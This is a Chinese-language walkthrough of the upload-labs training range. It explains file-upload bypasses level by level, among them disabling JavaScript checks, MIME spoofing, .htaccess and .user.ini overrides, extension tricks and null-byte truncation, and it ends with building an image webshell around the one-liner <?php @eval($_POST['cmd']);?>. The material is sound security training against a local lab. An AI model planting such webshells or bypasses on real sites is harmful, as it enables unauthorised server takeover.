# uploadlabs通关手册

## 第一关

这一关考察的是JavaScript的文件后缀名验证



### 方法1

因为第一关是本地JavaScript的验证，所以我们在只要禁用到JavaScript即可上传`.php`的后缀格式。



### 方法2

在禁用JavaScript的过程中，可能会导致网站的其他功能受到影响，所以我们可以使用Burp Suite进行对数据包的修改，从而达到上传的目的。



但是这种有一个问题，如果说这种是一个本地JS保存文件的话，可能抓不到包。

### 方法3

这种方法就是自己写一个`form`表单，通过表单的`action`属性进行文件的传递，`action`的值为文件提交服务器的路径的值，但是这个时候不知道action给谁，所以，我们就需要上传一张正确的图片，F12，找到数据包，去找到那个正确的地址。

```html
<form action="http://192.168.132.132/mypage/upload-labs/Pass-01/index.php" enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
	<input type="file" name="upload_file"/>
	<input type="submit" name="submit" value="上传"/>
</form>
```

在自己写的HTML源文件中只要不写本地JavaScript的验证就可以了。

通过上面的三种方式都可以上传成功。


## 第二关

通过分析代码可知：这一关是，文件类型MIME信息的绕过上传

```php
if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif'))
```

对这个进行抓包，分析出HTTP网络包，其中`Content-Type: application/octet-stream`将`application/octet-stream`修改为`image/gif`即可。


## 第三关

这一关的核心是黑名单验证，因为有Apache的原因，有一些特殊的文件也可以解析为php脚本语言。

```php
$deny_ext = array('.asp','.aspx','.php','.jsp');
$file_name = trim($_FILES['upload_file']['name']); // 去掉空格
$file_name = deldot($file_name);// 删除文件名末尾的点,这个不是php的函数,是自己实现的
$file_ext = strrchr($file_name, '.'); // 查找.在整个文件名中最后一次出现的位置
$file_ext = strtolower($file_ext); // 转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);// 去除字符串::$DATA
$file_ext = trim($file_ext); //收尾去空
```

在Apache的配置文件中，有这么一行配置，他是负责将类似于php5，php3，之类的文件当作php的文件进行解析，但是如果对方服务器没有配置这个开关，就不能上传这些后缀，去执行相关的php代码

```Apache
AddType application/x-httpd-php .php .phtml .php5 .php3
```

有了这个思路，我们就可以上传一些php5，php3之类的文件后缀，即可上传成功。


## 第四关

这一关仍然是黑名单过滤，但是我们分析代码可以知道，里面有很多的格式都已经被过滤掉了，就不能使用上一关的方法了。

这一关考察的是.htaccsess绕过。

```php
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
```

### .htaccsess文件详解

1. `.htaccess`是一个纯文本文件，它里面存放着Apache服务器配置相关的指令。

2. `.htaccess`主要的作用有：URL重写、自定义错误页面、MIME类型配置以及访问权限控制等。主要体现在`伪静态`的应用、图片防盗链、自定义404错误页面、阻止/允许特定IP/IP段、目录浏览与主页、禁止访问指定文件类型、文件密码保护等。

3. `.htaccess`的用途范围主要针对当前目录。

#### 启用.htaccess

启用`.htaccess`，需要修改`httpd.conf`，启用`AllowOverride`，将`AllowOverride None`修改为`AllowOverride All`

### 绕过

#### 方法1

通过下面的代码可以实现自定义`文件名`解析为php脚本执行，重写解析规则

```apache
<FilesMatch "myfilename">
SetHandler application/x-httpd-php
</FilesMatch>
```

只要上传的是包含`myfilename`的文件名，不管是什么后缀都是可以被执行为php的。

#### 方法2

上面的方法是只针对于解析文件名的，这个方法是针对于解析文件后缀的，这个只要是jpg的文件格式都可以解析为php代码执行。

```Apache
AddType application/x-httpd-php .jpg # 这个是MIME的文件格式
```

不管是方法1还是方法2都是将其当作`application/x-httpd-php`的MIME来执行

## 第五关

[[解决问题/服务器配置/Apache与PHP/index#PHP和apache的关系|查看Apache与PHP的配置原理]]

### .user.ini文件

服务器以`fastcgi`启动运行的时候，`.user.ini`也是`php`的一种配置文件，众所周知`php.ini`是`php`的配置文件，它可以做到显示报错，导入扩展，文件解析，web站点路径等等设置。

`.user.ini`和`.htaccess`一样是对当前目录的所有php文件的配置设置，即写了`.user.ini`和它同目录的文件会优先使用.user.ini中设置的配置属性。和php.ini不同的是，`.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。这个是在`php.ini`的配置文件中的



`.user.ini`使用范围很广，不仅限于 Apache 服务器，同样适用于 Nginx 服务器，只要服务器启用了 fastcgi 模式

#### 局限

在`.user.ini`中使用这条配置也说了是在同目录下的其他`.php`文件中包含配置中所指定的文件，也就是说需要该目录下存在`.php`文件，通常在文件上传中，一般是专门有一个目录用来存在图片，可能小概率会存在`.php`文件。

但是有时可以使用`../`来将文件上传到其他目录，达到一个利用的效果。

### 利用条件

- 服务器以fastcgi模式启动，服务器脚本语言为PHP，服务器使用CGI
- 允许上传.user.ini文件
- 上传文件的所在目录存在php文件

### 利用过程

通过分析源码可以得出，该黑名单中没有过滤`.ini`的文件。

```php
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext); //转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //首尾去空

if (!in_array($file_ext, $deny_ext)) {
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $img_path = UPLOAD_PATH.'/'.$file_name;
    if (move_uploaded_file($temp_file, $img_path)) {
        $is_upload = true;
    } else {
        $msg = '上传出错！';s
    }
} else {
    $msg = '此文件类型不允许上传！';
}
```

所以，我们上传`.user.ini`的配置文件

```ini
auto_append_file = index.txt
# 在主文件之后自动解析文件名
auto_prepend_file = index.txt
# 在主文件之前自动解析文件名
# 这里的脚本文件是index.txt,也就是说将index.txt按照php进行解析
```

然后在上传相应的index.txt文件，然后运行在同一目录下的php文件，就可以上传成功。


## 第六关

大小写绕过。

通过观察源码，上面没有转换为小写的这一函数，所以说我们可以直接使用后缀名大小写混合的方式绕过，上传一个名为first.PHp的文件，就可以绕过了


## 第七关

空格绕过

观察源码，发现源码中没有去空格的代码，所以说可以使用Windows操作系统的特性，在文件后缀名的后面加上`空格`或者`.`，因为这两个你加上之后去保存文件名的话，Windows也会把这些内容给自动删除掉，不会影响整个的文件命名。

注意：这里加上空格的话，Windows系统会把空格给删除掉，而我们在数据包里面加空格就没有这个问题，空格会随着数据包传递给服务器，到对方的操作系统中被删除。



绕过成功


## 第八关

考察`.`的绕过

与上面的思路类似



绕过成功


## 第九关

::$DATA绕过

通过观察代码发现，没有这一行代码，这个的基本操作与上面的类似，在后面加上`::$DATA`就可以了

```php
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
```

对于`::$DATA`的补充

要使用这种方式绕过，必须是Windows，必须是PHP

当从 Windows shell 命令行指定创建文件时，流的完整名称为 "**filename**:**stream name**:**stream type**"，在NTFS的文件系统中，一个文件至少要包含一个流，即data流，默认的data流的`stream name`为空，一个文件如果被指定了流，而该流没有stream type的话会在存储时自动添加$DATA。

但是为什么通过这个可以进行绕过，其原理不知道。



绕过成功


以上都是黑名单绕过。

## 第十关

对过滤的绕过，一般情况下，代码层对于文件上传是有过滤的，有的是一次过滤，有的是循环过滤。

一次过滤：index.php，过滤掉之后为index.

循环过滤：index.pphphp，过滤之后为index.php

这一关是一次过滤。

```php
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext); //转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //首尾去空

if (!in_array($file_ext, $deny_ext)) {
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $img_path = UPLOAD_PATH.'/'.$file_name;
    if (move_uploaded_file($temp_file, $img_path)) {
        $is_upload = true;
    } else {
        $msg = '上传出错！';
    }
} else {
    $msg = '此文件类型不允许上传！';
}
```

通过分析这个过滤规则，我们可以得出所有的过滤规则，只过滤了一次。可以对着这个过滤规则，写出一个可以绕过的文件格式。



文件名截断之后就是，如下图所示



上传成功


## 第十一关

这一关仍是一次过滤的问题

```php
$file_name = str_ireplace($deny_ext,"", $file_name); // 将后缀名替换为空
```

但是这个替换只进行了一次，所以说可以构造`first.pphphp`这样的文件，对方过滤之后就变成了`first.php`



过滤之后为



上传成功


## 第十二关

这一关是白名单，通过分析可以得知，这一关只能上传图片格式。

### 绕过方法

服务端判断文件类型是从后往前判断，而对文件解析是从前往后解析，可以利用00截断的方式进行绕过，包括%00截断与0x00截断。 

分析代码可以得出

```php
$img_path = $_GET['save_path']."/".rand(10,99).date("YmdHis").".".$file_ext;
// 这个是GET请求
// 通过下面的图片可以得出?save_path = ../upload/first.php%00
// $img_path = ../upload/first.php%00/show.jpg
// %00就是空格,被%00阶段后就变成了../upload/first.php /show.jpg后面的/show.jpg被截断就只剩下../upload/first.php
```

通过抓包也可以分析出来。



### 利用条件

* 上传路径是可以控制的（不是必须）
* php版本低于5.3.4
* 魔术引号`magic_quotes_gpc`关闭

上传成功


## 第十三关

这一关和上一关类似，但是有一点不一样，这个是post提交的

```php
$img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;
```

### 方法1

上传一个图片马，对其%00进行解码，绕过即可



### 方法2

这种方法是使用修改十六进制绕过



### 总结

`0x00`， `%00`，`/00`之类的截断，都是一样的，只是不同表示而已。

在url中`%00` 表示`ascll`码中的0 ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现%00时就会认为读取已结束。

#### %00与0x00的区别

应用场景不一样：

`%00`URL地址上的，`0x00`文件命名方面。编码上的%00，不是普通文本的%00

#### 思考

为什么在post中需要解码，在get中不需要解码？

post不会自动解码，get会自动解码

## 第十四关

考察图片马的制作，与相应的连接，文件包含漏洞的利用，文件包含漏洞有，本地文件包含与远程文件包含

分析代码

```php
$strInfo = @unpack("C2chars", $bin); // 前面+@是为了防止出现警告,函数从二进制字符串对数据进行解包。  
$typeCode = intval($strInfo['chars1'].$strInfo['chars2']); // 函数用于获取变量的整数值
```

补充相应的文件格式

```
1.Png图片文件包括8字节：89 50 4E 47 0D 0A 1A 0A。即为 .PNG。
2.Jpg图片文件包括2字节：FF D8。
3.Gif图片文件包括6字节：47 49 46 38 39|37 61 。即为 GIF89(7)a。
4.Bmp图片文件包括2字节：42 4D。即为 BM
```

### 制作图片马

1. ```php
   copy update.jpg /b + webshell.php /a webshell.jpg
   ```

2. 

PHP一句话的编写

```php
<?php @eval($_POST['cmd']);?>
```

利用文件包含漏洞去执行相应的图片马，因为上面写的是`$_POST`的方式执行，所以在hackbar中，也要使用post方式进行命令执行。



在蚁剑中尝试连接，连接成功

